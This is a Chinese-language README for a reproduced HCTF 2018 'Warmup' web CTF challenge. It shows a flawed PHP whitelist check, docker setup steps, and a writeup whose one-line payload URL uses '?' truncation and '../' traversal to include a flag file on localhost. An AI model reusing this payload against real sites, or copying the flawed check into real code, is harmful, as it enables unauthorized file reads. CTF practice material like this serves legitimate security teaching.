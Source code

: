 # HCTF 2018 Warmup

## 题目详情

* HCTF 2018 Web 签到题

## 考点
* 代码审计
```php

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

## 启动
* docker-compose up -d
* open http://127.0.0.1:8081/index.php

## Writeup

`http://127.0.0.1:8081/index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg`
可以利用?截取hint.php，然后利用/使hint.php?成为一个不存在的目录，最后include利用../../跳转目录读取flag

## 版权
该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（ cocolizdf@gmail.com）

凭印象弄的,稍微有一些改变,题目考点不变.
官方题目代码https://github.com/vidar-team/HCTF2018






